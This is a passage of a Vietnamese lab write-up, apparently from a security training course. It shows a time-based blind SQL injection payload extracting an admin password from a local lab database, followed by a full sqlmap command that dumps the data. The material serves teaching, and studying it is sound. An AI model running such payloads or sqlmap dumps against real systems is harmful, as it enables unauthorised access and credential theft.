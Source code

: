 Tên cột là: `password`


**Bước 3: Lấy dữ liệu**

Sau khi đã có đủ tên bảng, tên cột em đã có thể lấy được password của admin bằng:
`' or (case when substring((select password from task_3 limit 0,1),§1§,1)='§p§' then sleep(1) else 1 end)=1 -- `

![](https://i.imgur.com/TZpF5qn.png)

*=> Mật khẩu của admin là: `admin123`.*


## Mở rộng

Những hướng khai thác sql injection trên đã được tổng hợp vào trong 1 tool rất mạnh là `sqlmap`.
Với những lab này em đã thử dùng sqlmap để dump data bằng:

```c
sqlmap -u "http://192.168.200.1/trainingKCSC/task_3_lab_sqli/lab_boolean_based.php" --data="username=*&password*&login=" -dbms="MySQL" --threads 10 --batch --dump
```

`-u` url - đường dẫn đến target
`--data` dùng để gửi dữ liệu được truyền qua phương thức POST
`--dbms` dùng để khai báo loại cơ sở dữ liệu
`--threads` dùng để tùy chọn số lượng luồng
`--batch` dùng để tự động lựa chọn
`--dump` dùng để dump dữ liệu

![](https://i.imgur.com/drAmrzI.png)
